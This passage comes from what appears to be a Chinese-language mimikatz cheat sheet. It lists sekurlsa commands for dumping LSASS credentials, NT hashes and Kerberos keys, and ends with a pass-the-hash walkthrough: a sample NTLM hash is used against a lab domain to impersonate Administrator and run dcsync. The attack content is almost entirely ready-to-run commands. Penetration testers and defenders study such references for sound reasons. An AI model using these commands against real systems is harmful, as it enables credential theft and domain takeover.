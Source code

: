 ```

```
mimikatz # sekurlsa::krbtgt
```

## livessp
列出了LiveSSP凭证。据微软称，LiveSSP供应商默认包含在Windows 8和更高版本中，并包含在Office 365登录助手中

```
mimikatz # sekurlsa::livessp
```

## logonpasswords
列出所有可用的提供者凭证。这通常显示最近登录的用户和计算机凭证

```
mimikatz # sekurlsa::logonpasswords
```

## minidump

可以针对转储的LSASS进程文件使用，它不需要管理权限。它被认为是一种 "离线 "转储。
```
mimikatz # sekurlsa::minidump file.dmp

mimikatz # sekurlsa::logonpasswords
```

## msv

通过针对MSV1_0 Authentication Package，转储和列出NT哈希值（和其他secrets）
```
mimikatz # sekurlsa::msv
```

## process

通过切换到LSASS进程的上下文，之后就可以使用sekurlsa::minidump命令

```
mimikatz # sekurlsa::minidump lsass.dump.dmp

mimikatz # sekurlsa::process
```

## pth

执行Pass-the-Hash、Pass-the-Key和Over-Pass-the-Hash。认证成功后，将运行一个程序（注：默认为cme.exe）

```
mimikatz # sekurlsa::pth /user:Administrator /domain:hacklab.local /ntlm:b09a14d2d325026f8986d4a874fbcbc7
```

**令牌模拟**
当前账号是普通域用户，知道Administrator的哈希

模拟Administrator的令牌，使用```/impersonate```参数
```
mimikatz # sekurlsa::pth /user:Administrator /domain:hacklab.local /ntlm:b09a14d2d325026f8986d4a874fbcbc7 /impersonate
```

现在在Administrator的上下文中可以执行dcsync
```
mimikatz # lsadump::dcsync /user:Administrator
```
```
